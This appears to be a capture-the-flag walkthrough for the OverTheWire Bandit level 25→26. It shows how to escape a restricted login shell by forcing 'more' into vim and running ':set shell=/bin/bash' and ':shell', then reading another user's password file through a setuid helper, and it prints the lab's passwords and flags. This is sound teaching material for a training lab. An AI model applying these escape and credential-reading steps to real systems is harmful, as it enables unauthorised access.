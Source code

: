<p align="center">
<a href="level-24→25.md">Previous Level: Level 24 → 25</a>
</p>

# [Bandit Level 25 → 26](https://overthewire.org/wargames/bandit/bandit26.html)

## Login Info
- **SSH:** `ssh bandit.labs.overthewire.org -p 2220 -l bandit25`
- **Password:** `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

---

## Task 
The goal of this level is to log in to bandit26, but as easy as that sounds, the shell for bandit26 is not **/bin/bash**, but something else. We are to find out what it is, how it works and how to break out of it.

## Steps
Doing a quick `ls`:
```bash
bandit25@bandit:~$ ls                                                                                                                                            
bandit26.sshkey
```
We find the ssh private key to log into bandit26.  

Let's copy the contents of the key to our own system (we also need to limit the permissions of the key), and try logging into bandit26:
```bash
chmod 600 sshkey25.private
ssh -i sshkey25.private bandit.labs.overthewire.org -p 2220 -l bandit26
...

  Enjoy your stay!

  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
```
The connection was closed as there was no interactive shell defined for user bandit26 in `/etc/passwd`.  

Let's log back into bandit25 and see what is defined for bandit26:
```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
Each line in `/etc/passwd` represents one user account and has seven fields, separated by colons `:`.  

`username:password:UID:GID:comment:home_directory:shell`  

- `username` - the login name(bandit25, bandit26, etc...).
- `password` - usually an `x` or `*` meaning the encrypted password is stored in `/etc/shadow`.
- `UID` - the user ID number.
- `GID` - the user's primary group ID.
- `comment` - optional description.
- `home_directory` - path to the user's home folder.
- `shell` - the program executed when the user logs in (e.g. /bin/bash)

In our case, bandit26 has `/usr/bin/showtext` set as their shell. Let's investigate further:
```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
What we see here is a script that is executed when we log in to bandit26, more specifically, it opens a file called `text.txt` with the `more` command.  

`more` is a linux command that lets us view text files one screen at a time. When a file is too long to fit on one screen, instead of flooding the terminal it pauses after each page.
Now when we logged into bandit26 with the private key we never got to see this as our terminal size was large enough to accomodate the text.
If we **make our terminal window really small** before we log in to bandit26, we should be able to see the interactive mode of `more`.
From there we can use `v` to go into vim (text editor) and enter **command-line mode**  by typing `:` followed by our command.
```bash
❯ ssh -i sshkey25.private bandit.labs.overthewire.org -p 2220 -l bandit26
...

  Enjoy your stay!

  _                     _ _ _   _
__   __  
 | |                   | (_) | |_
_ \ / /  
 | |__   __ _ _ __   __| |_| |_  
 ) / /_  
--More--(50%)
```
After typing `v` to enter vim, you can resize your terminal back to your preferred size.  
`:shell` command in vim should give us a shell, however it will use the user's default shell. So what we need to do is change the default shell to something more familiar like `/bin/bash`.
We can do that with the `:set` command:
```bash
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~                                                                                                                                                                                                                              
~                                                                                                                     
~                                                                                                                     
~                                                                                                                     
:set shell=/bin/bash
:shell
bandit26@bandit:~$ 
```
Now that we have a bash shell let's see what files are here:
```bash
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
```
We see something akin to [level 20 → 21](level-20→21.md), and we can run the command as another user and print the password file for bandit27.
```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

## Flag
```bash
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

## Notes
- `/etc/passwd` is the system file that stores user account information separated by `:`. The last field specifies which shell the user runs when logging in.
- `more` displays text one screen at a time, letting us scroll through long files with space or enter. While in this interactive mode pressing `v` tells it to launch the vim editor (on most linux systems).
- Vim's command mode is entered by preceeding the command with `:` allowing us to run commands like saving, quitting or editing files such as changing the default shell with `:set shell=/bin/bash`.


<p align="center">
<a href="level-26→27.md">Next Level: Level 26 → 27</a>
</p>


